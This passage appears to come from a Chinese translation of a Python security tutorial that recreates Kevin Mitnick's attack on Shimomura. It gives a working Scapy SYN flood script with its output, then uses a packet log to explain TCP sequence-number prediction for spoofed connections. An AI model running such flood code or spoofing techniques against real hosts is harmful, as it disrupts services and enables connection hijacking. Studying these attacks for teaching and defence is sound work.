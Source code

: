 ## 用 Scapy 制作 SYN 洪水

用`Scapy`简单的复制一个 TCP SYN 洪水攻击，我们将制作一些 IP 数据包，有递增的 TCP 源端口和不断的 TCP 513 目标端口。

```
from scapy.all import *

def synFlood(src, tgt):
    for sport in range(1024, 65535):
        IPlayer = IP(src=src, dst=tgt)
        TCPlayer = TCP(sport=sport, dport=513)
        pkt = IPlayer / TCPlayer
        send(pkt)

src = "10.1.1.2"
tgt = "192.168.1.3"
synFlood(src, tgt) 
```

运行攻击发送 TCP SYN 数据包耗尽目标主机资源，填满它的连接队列，基本瘫痪目标发送 TCP 重置包的能力。

```
mitnick# python synFlood.py
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
<..SNIPPED..> 
```

## 计算 TCP 序列号

现在攻击变得有一些有趣了。随着远程服务器的沉默，米特尼克可以欺骗目标的 TCP 连接。然而，这取决于他发送伪造的 SYN 的能力，Shimomura 机器 TCP 连接后的一个 TCP ACK 数据包。为了完成连接，米特尼克需要需要正确的猜到 TCP ACK 的序列号，因为他无法观察到他，并返回一个正确的猜测的 TCP ACK 序列号。为了正确计算 TCP 序列号，米特尼克从名为`apollo.it.luc.edu`的大学机器发送了一系列的 SYN 数据包，收到 SYN 之后，Shimomura 的机器的终端响应了一个带序列号的 TCP ACK 数据包注意下面隐藏技术细节的序列号：`2022080000, 2022208000, 2022336000, 2022464000`。每个增量相差 128000，这让计算正确的 TCP 序列号更加容易。( 注意，大多数现代的操作系统今天提供更强大的随机 TCP 序列号。)

```
14:18:27.014050 apollo.it.luc.edu.998 > x-terminal.shell: S
1382726992:1382726992(0) win 4096
14:18:27.174846 x-terminal.shell > apollo.it.luc.edu.998: S
2022080000:2022080000(0) ack 1382726993 win 4096
14:18:27.251840 apollo.it.luc.edu.998 > x-terminal.shell: R
1382726993:1382726993(0) win 0
14:18:27.544069 apollo.it.luc.edu.997 > x-terminal.shell: S
1382726993:1382726993(0) win 4096
14:18:27.714932 x-terminal.shell > apollo.it.luc.edu.997: S
2022208000:2022208000(0) ack 1382726994 win 4096
14:18:27.794456 apollo.it.luc.edu.997 > x-terminal.shell: R
1382726994:1382726994(0) win 0
14:18:28.054114 apollo.it.luc.edu.996 > x-terminal.shell: S
1382726994:1382726994(0) win 4096
14:18:28.224935 x-terminal.shell > apollo.it.luc.edu.996: S
2022336000:2022336000(0) ack 1382726995 win 4096
14:18:28.305578 apollo.it.luc.edu.996 > x-terminal.shell: R
1382726995:1382726995(0) win 0
14:18:28.564333 apollo.it.luc.edu.995 > x-terminal.shell: S
1382726995:1382726995(0) win 4096
14:18:28.734953 x-terminal.shell > apollo.it.luc.edu.995: S
```